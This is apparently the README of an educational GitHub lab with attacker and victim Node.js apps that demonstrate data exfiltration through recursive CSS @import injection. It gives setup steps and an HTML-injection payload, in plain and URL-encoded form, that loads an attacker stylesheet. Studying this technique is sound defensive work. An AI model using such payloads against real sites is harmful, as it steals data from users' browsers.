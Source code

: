 # Data exfiltration via recursive stylesheet imports

This repository contains two Node.js applications designed as a test bed for demonstrating and learning how to exfil data using the recursive CSS stylesheet imports technique.

## Overview

CSS facilitated data exfil is a technique that allows an attacker to extract data from a victim's browser using crafted stylesheets. This repository contains two separate applications to simulate the attacker's exploit server (`attacker-site`) and the victim (`victim-site`).

### `attacker-site`

The attacker's exploit server is used to carry out the exfiltration that is kicked off by the initial payload:

```
&vuln="/><style>@import%20url(http://127.0.0.1:8089/start)</style>
```

### `victim-site`

The victim's site is vulnerable to content injection and includes an endpoint that the attacker can exploit to load arbitrary CSS. There is a Content-Security-Policy that prevents JavaScript from running to simulate a scenario where Cross-Site Scripting is not feasible.

## Getting Started

Follow these instructions to set up the environment and run the applications.

### Prerequisites

- Node.js (Download from [Node.js website](https://nodejs.org/))
- Git (optional, for cloning the repository)

### Installation

1. Clone the repository or download the files to your local machine.
    ```
    git clone git@github.com:faceteep/css-exfil.git
    ```

2. Navigate to each application directory (`attacker-site` and `victim-site`) and install dependencies.
    ```
    cd attacker-site
    npm install

    cd ../victim-site
    npm install
    ```

### Running the Applications

1. Start the attacker's site:
    ```
    cd attacker-site
    node app.js
    ```
   
2. In a new terminal, start the victim's site:
    ```
    cd victim-site
    node app.js
    ```

## Usage

1. Open the victim's site in a browser.
2. Visit the following 'attacker' crafted link: http://127.0.0.1:5001/?vuln=%22/%3E%3Cstyle%3E@import%20url(http://127.0.0.1:8088/start)%3C/style%3E
3. Observe how the attacker's site receives data through recursive stylesheet imports.

## Acknowledgments

- Most of the attacker-site code was inspired by this repository: https://gist.github.com/cgvwzq/6260f0f0a47c009c87b4d46ce3808231.

## Disclaimer

This application is designed for educational purposes. Please use responsibly.

